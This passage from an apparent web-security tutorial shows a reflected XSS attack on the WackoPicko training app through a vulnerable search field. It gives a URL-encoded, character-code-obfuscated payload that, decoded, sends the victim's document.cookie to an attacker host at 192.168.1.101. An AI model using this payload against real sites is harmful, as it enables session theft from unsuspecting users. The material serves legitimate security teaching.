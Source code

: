 >Another technique is called **_reflected XSS_** and this time we will need the user to click on a prepared link that injects the payload using an unsanitized input. 

>Generally, if there is a field that loads a string from the URL and does not filter anything before rendering it, then Reflected XSS is possible.

---

There is a vulnerable search field on this web app, let’s exploit it and send our link to the user.

[![Encoding the payload with Burp Suite assistance](images/ss12.png)](images/ss12.png "Encoding the payload with Burp Suite assistance")
Encoding the payload with Burp Suite assistance

```python
# This is the same payload, but I encoded it for URL and added "White Dog" before.  
http://wackopicko.com:8080/pictures/search.php?query=White%20Dog%3c%62%6f%64%79%20%6f%6e%6c%6f%61%64%3d%65%76%61%6c%28%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%31%31%30%2c%31%30%31%2c%31%31%39%2c%33%32%2c%37%33%2c%31%30%39%2c%39%37%2c%31%30%33%2c%31%30%31%2c%34%30%2c%34%31%2c%34%36%2c%31%31%35%2c%31%31%34%2c%39%39%2c%36%31%2c%33%34%2c%31%30%34%2c%31%31%36%2c%31%31%36%2c%31%31%32%2c%35%38%2c%34%37%2c%34%37%2c%34%39%2c%35%37%2c%35%30%2c%34%36%2c%34%39%2c%35%34%2c%35%36%2c%34%36%2c%34%39%2c%34%36%2c%34%39%2c%34%38%2c%34%39%2c%34%37%2c%36%33%2c%31%32%30%2c%31%31%35%2c%31%31%35%2c%36%31%2c%33%34%2c%34%33%2c%31%30%30%2c%31%31%31%2c%39%39%2c%31%31%37%2c%31%30%39%2c%31%30%31%2c%31%31%30%2c%31%31%36%2c%34%36%2c%39%39%2c%31%31%31%2c%31%31%31%2c%31%30%37%2c%31%30%35%2c%31%30%31%29%29%3e
```

[![Unwary user clicks on a malicious link](https://krystianbajno.github.io/images/webh_1/ss7.png)](https://krystianbajno.github.io/images/webh_1/ss7.png "Unwary user clicks on a malicious link")
Unwary user clicks on a malicious link  
